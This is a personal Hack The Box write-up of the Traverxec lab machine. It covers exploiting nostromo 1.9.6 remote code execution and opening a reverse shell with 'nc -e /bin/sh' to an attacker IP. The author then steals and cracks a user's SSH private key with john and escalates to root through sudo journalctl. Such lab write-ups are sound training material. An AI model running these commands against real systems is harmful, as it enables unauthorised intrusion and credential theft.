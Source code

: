 ```yaml
---
title: "Traverxec Write Up"
date: 2020-02-29T11:57:35+11:00
description: "Write-Up for Traverxec machine"
displayInLine: true
displayInMenu: false
draft: false
---
```


# Traverxec

![Traverxec/Screen_Shot_2020-02-25_at_18.42.50_pm.png](Traverxec/Screen_Shot_2020-02-25_at_18.42.50_pm.png)

As with other Hack The Box machines, we are given the IP address of the Traverxec machine. So I don't need to do a netdiscover to find the IP.

![Traverxec/Screen_Shot_2020-02-25_at_18.41.07_pm.png](Traverxec/Screen_Shot_2020-02-25_at_18.41.07_pm.png)

Then I make sure I'm connected to the machine through the openvpn.

![Traverxec/Screen_Shot_2020-02-25_at_18.42.18_pm.png](Traverxec/Screen_Shot_2020-02-25_at_18.42.18_pm.png)

I then ensure I'm connected by issuing a ping to check connectivity. Once done I then perform an NMAP scan to detect open ports and services running. In this case only 2 are open. 80 using nostromo 1.9.6 and 22 for SSH. The nostromo service is something that will be important soon.

Now Ill look into the website on port 80.

![Traverxec/Screen_Shot_2020-02-25_at_18.43.54_pm.png](Traverxec/Screen_Shot_2020-02-25_at_18.43.54_pm.png)

Just doing some basic enumeration and looking for clues on the website, nothing really stood out to me. I then look into the nostromo service to see if theres anything interesting about it.

![Traverxec/Screen_Shot_2020-02-25_at_18.44.17_pm.png](Traverxec/Screen_Shot_2020-02-25_at_18.44.17_pm.png)

![Traverxec/Screen_Shot_2020-02-25_at_18.44.44_pm.png](Traverxec/Screen_Shot_2020-02-25_at_18.44.44_pm.png)

Sure enough theres an exploit for Nostromo version 1.9.6 for Remote Code Execution. I can use this to input commands directly to the machine from my shell. After downloading and executing it in a command like below I encounted an error regarding the *cve2019_1678.py*  line in the code, simply removing this fixed the error.

![Traverxec/Screen_Shot_2020-02-25_at_18.45.59_pm.png](Traverxec/Screen_Shot_2020-02-25_at_18.45.59_pm.png)

When attempting to input commands using the exploit, it only executes that online and thats it. After that the connection is terminated, so i need to find a way to keep that connection open for me to enumerate inside the machine.

![Traverxec/Screen_Shot_2020-02-25_at_19.45.38_pm.png](Traverxec/Screen_Shot_2020-02-25_at_19.45.38_pm.png)

![Traverxec/Screen_Shot_2020-02-25_at_19.45.58_pm.png](Traverxec/Screen_Shot_2020-02-25_at_19.45.58_pm.png)

Using the following command 

    python 47837.py 10.10.10.165 80 'nc -e /bin/sh 10.10.14.151 5050'

I am able to create a continuous connection when having anothing terminal using netcat to capture the window and use it to as an anchor for me to execute code now. Now I want to turn this into a regular bash terminal.

![Traverxec/Screen_Shot_2020-02-25_at_19.50.31_pm.png](Traverxec/Screen_Shot_2020-02-25_at_19.50.31_pm.png)

WIth the following command 

    python -c import pty;pty.spawn("/bin/sh");'

I am able to turn the current shell into a bash shell. Now I am able to look around and find some users.

![Traverxec/Screen_Shot_2020-02-25_at_19.52.37_pm.png](Traverxec/Screen_Shot_2020-02-25_at_19.52.37_pm.png)

In this case I'm "www-data",  I now need to find some useful files that will help me traverse further. Since Im now inside the Nostromo server, I should start by finding out what the configuration files it has.

![Traverxec/Screen_Shot_2020-02-25_at_19.55.16_pm.png](Traverxec/Screen_Shot_2020-02-25_at_19.55.16_pm.png)

Based on the search, it seem the NHTTPD file is a major configuration file, and it tell us the it is within nostromo/conf/nhttpd.

![Traverxec/Screen_Shot_2020-02-25_at_19.57.44_pm.png](Traverxec/Screen_Shot_2020-02-25_at_19.57.44_pm.png)

So I managed to find the nhttpd configuration files, and it tell me alot. Main admin is David which I found in home before coming here. And it looks like theres a public_www file inside home, which would be inside David. 

![Traverxec/Screen_Shot_2020-02-25_at_20.01.38_pm.png](Traverxec/Screen_Shot_2020-02-25_at_20.01.38_pm.png)

once you try to execute commands in david, you will get the above error. But since I know that theres a public_www inside of the david folder from the configuration file, I can simply change into it from here.

![Traverxec/Screen_Shot_2020-02-25_at_20.02.08_pm.png](Traverxec/Screen_Shot_2020-02-25_at_20.02.08_pm.png)

Now these are some intreseting files. But the issue now is that the file here "backup-ssh-identity-files.tgz" is a zip file.

![Traverxec/Screen_Shot_2020-02-25_at_20.25.36_pm.png](Traverxec/Screen_Shot_2020-02-25_at_20.25.36_pm.png)

And I'm unable to unzip it here since its within david which www-data doesn't have proper privileges for. Now i need to find a directory that www-data has access to and can edit.

Using the following command:

    find / -type d -user www-data

I am able to find directories that www-data has access to.

![Traverxec/Screen_Shot_2020-02-25_at_20.40.46_pm.png](Traverxec/Screen_Shot_2020-02-25_at_20.40.46_pm.png)

Based on this find search, all these files www-data has access to. Im going to look to see if /var/nostromo/logs is a good place to unzip.

![Traverxec/Screen_Shot_2020-02-25_at_20.44.12_pm.png](Traverxec/Screen_Shot_2020-02-25_at_20.44.12_pm.png)

I seems it can, now I need to copy the files here to extract them to this folder

![Traverxec/Screen_Shot_2020-02-25_at_20.46.06_pm.png](Traverxec/Screen_Shot_2020-02-25_at_20.46.06_pm.png)

![Traverxec/Screen_Shot_2020-02-25_at_20.46.57_pm.png](Traverxec/Screen_Shot_2020-02-25_at_20.46.57_pm.png)

![Traverxec/Screen_Shot_2020-02-25_at_20.47.49_pm.png](Traverxec/Screen_Shot_2020-02-25_at_20.47.49_pm.png)

After successfully copying and unzipping the file, it holds some important file, mostly id_rsa which is a private key. I can use this private key to access davids account without the need for a password, all I need now is to crack the key to find the passphrase. To do this i need to use john the ripper. I should now copy the private key to my local kali machine and wipe the files that are here.

Now that I have the private key stored locally, I can move SSH2john to the local directory to turn the key into a usable hash that john can read.

![Traverxec/Screen_Shot_2020-02-25_at_20.59.01_pm.png](Traverxec/Screen_Shot_2020-02-25_at_20.59.01_pm.png)

Now that ive turned the key into a usable hash, I need to crack it to find out the passpharse using john.

![Traverxec/Screen_Shot_2020-02-25_at_21.01.37_pm.png](Traverxec/Screen_Shot_2020-02-25_at_21.01.37_pm.png)

Now I know the passphrase is "Hunter". Now all iI have to do is use the following SSH command to get into davids account

    ssh -i id_rsa david@10.10.10.165 80

![Traverxec/Screen_Shot_2020-02-25_at_21.06.15_pm.png](Traverxec/Screen_Shot_2020-02-25_at_21.06.15_pm.png)

I encounted a problem when it didnt trust the ssh.txt file as the private key. But once i copied it over to a file called "id_rsa" and changed the permissions to 700 it was able to run. And by using the passphrase "hunter" I now access as david.

![Traverxec/Screen_Shot_2020-02-25_at_21.08.00_pm.png](Traverxec/Screen_Shot_2020-02-25_at_21.08.00_pm.png)

Now as david I have found one of the flags, user.txt. Now i need to privilege escalate to get to root somehow.

After enumerating some of the basic files in the the local I found this file inside bin which gives me a clue on how to gain some root access powers

![Traverxec/Screen_Shot_2020-02-25_at_21.09.43_pm.png](Traverxec/Screen_Shot_2020-02-25_at_21.09.43_pm.png)

Here I'm able to use sudo for journalctl, If I search this on GTFObins, there should be a exploit i can use.

![Traverxec/Screen_Shot_2020-02-25_at_21.13.50_pm.png](Traverxec/Screen_Shot_2020-02-25_at_21.13.50_pm.png)

And thankfully there is, now i just need to input the command to use sudo and then shell with it.

I noticed when I attempting use the sudo on journalctl in a full window didn't work, but once resized you can execute the !/bin/sh. From here we are now root, so simply going into the root directory to get the final flag root.txt

9aa36a6d76f785dfd320a478f6e0d906

![Traverxec/Screen_Shot_2020-02-26_at_11.54.49_am.png](Traverxec/Screen_Shot_2020-02-26_at_11.54.49_am.png)